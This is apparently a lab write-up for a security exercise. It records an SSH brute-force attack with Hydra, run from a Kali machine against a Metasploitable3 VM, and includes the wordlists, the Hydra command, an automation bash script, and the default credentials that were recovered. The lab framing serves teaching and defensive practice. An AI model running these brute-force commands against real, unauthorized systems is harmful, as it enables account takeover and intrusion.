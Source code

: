 # Phase #1 – Setup and Compromise the Service

## Objective

Set up the attacker and victim environments, then compromise a vulnerable SSH service using two methods:

- Phase 1.1: Brute-force attack using a wordlist (Hydra)
- Phase 1.2: Bash script with Hydra to automate the process

## Environment Setup

- Attacker Machine: Kali Linux

  Hostname: kali

  Host-Only IP Address: 192.168.56.104

  NAT IP Address: 10.0.2.15

  Username: kali

- Victim Machine: Metasploitable3

  Hostname: metasploitable3

  Host-Only IP Address: 192.168.56.103

  NAT IP Address: 10.0.2.2

  Username: vagrant

  Password: vagrant

## Targeted Service

- **Service:** SSH
- **Port:** 22
- **Vulnerability Type:** Weak/default credentials
- **Goal:** Compromise SSH access through brute-force login

## Phase 1.1 – Hydra Brute-Force Attack Using Wordlists

### 1. Connectivity Check

Confirmed Kali can reach Metasploitable3 via ping:

```bash
ping 192.168.56.103
```

[](image-10.png)

### 2. Created Username and Password Lists

**user.txt**

```
msfadmin
user
postgres
vagrant
```

[](image-8.png)

**pass.txt**

```
msfadmin
123456
toor
password
vagrant
```

[](image-9.png)

### 3. Ran Hydra Using Both Files

Command used:

```bash
hydra -L user.txt -P pass.txt ssh://192.168.56.103 -t 4
```

✅ Result:

- Hydra successfully found the credentials:
  - **Username:** `vagrant`
  - **Password:** `vagrant`
    [](image-11.png)

## Phase 1.2 – Custom Scripted Attack (Hydra + Bash)

### 1. Created Bash Script

**ssh_bruteforce.sh**

```bash
#!/bin/bash
# Configuration
TARGET_IP="192.168.56.103"
USERNAME="vagrant"
PASSWORD_LIST="pass.txt"

# Run Hydra
echo "[*] Starting SSH brute-force attack on $TARGET_IP..."
hydra -l "$USERNAME" -P "$PASSWORD_LIST" ssh://"$TARGET_IP" -t 4 -f -V
```

[](image-7.png)

### 2. Ran the Script

```bash
chmod +x ssh_bruteforce.sh
./ssh_bruteforce.sh
```

✅ Output confirmed the attack was successful with valid credentials found:

- **Username:** `vagrant`
- **Password:** `vagrant`
  [](image-5.png)

## Conclusion

The SSH service on Metasploitable3 was successfully compromised using Hydra with both a custom wordlist and a Bash script. This confirms the service’s vulnerability to brute-force attacks due to the use of default credentials. The machine is now ready for defensive countermeasures.
